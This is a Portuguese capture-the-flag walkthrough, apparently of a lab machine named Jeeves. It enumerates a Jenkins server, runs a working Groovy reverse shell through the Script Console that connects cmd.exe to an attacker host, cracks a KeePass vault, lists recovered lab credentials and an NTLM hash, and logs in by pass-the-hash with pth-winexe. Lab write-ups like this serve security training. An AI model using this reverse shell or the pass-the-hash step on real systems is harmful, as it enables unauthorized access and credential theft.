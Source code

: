 Enumeração de serviços:
![[Pasted image 20240205161513.png]]
Enumeração de diretórios:
``` bash
feroxbuster -u http://10.10.10.63:50000 -A -r -x txt -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -C 404
```
Descoberta do Jenkins rodando no endpoint: `/askjeeves`
Navegando nas configurações, temos a opção Script Console, onde podemos inserir scripts em Groovy que serão executados pelo servidor. Vamos então inserir um script que irá nos enviar o shell do host:
![[Pasted image 20240206080904.png]]
```groovy
String host="$LHOST";
int port=$LPORT;
String cmd="cmd.exe";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());
                     while(pe.available()>0)so.write(pe.read());
                     while(si.available()>0)po.write(si.read());
                     so.flush();po.flush();Thread.sleep(50);
                     try {p.exitValue();
                          break;
                         }catch (Exception e){}};
  p.destroy();
s.close();
```

Ao executar obtemos a shell do host:
![[Pasted image 20240206081048.png]]

Analisando os diretórios da máquina alvo, encontramos o arquivo CEH.kdbx que é uma base de dados de um cofre de senhas. Podemos quebrar a senha master com ajuda do John the Ripper:
![[Pasted image 20240206092222.png]]
Vamos então baixar o software KeePass, carregar o arquivo de backup e utilizar a senha encontrada:
![[Pasted image 20240206092756.png]]
Credenciais:
```
anonymous:Password
Michael321:12345
admin:S1TjAtJHKsugh9oC4VZl
hackerman123:pwndyouall!
bob:lCEUnYPjNfIuPZSzOySA
administrator:S1TjAtJHKsugh9oC4VZl
admin:
?:aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
```

Agora podemos utilizar o método Pass The Hash, para logar no alvo utilizando o hash encontrado.
```bash
pth-winexe -U
jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cb
e81fe00 //10.10.10.63 cmd
```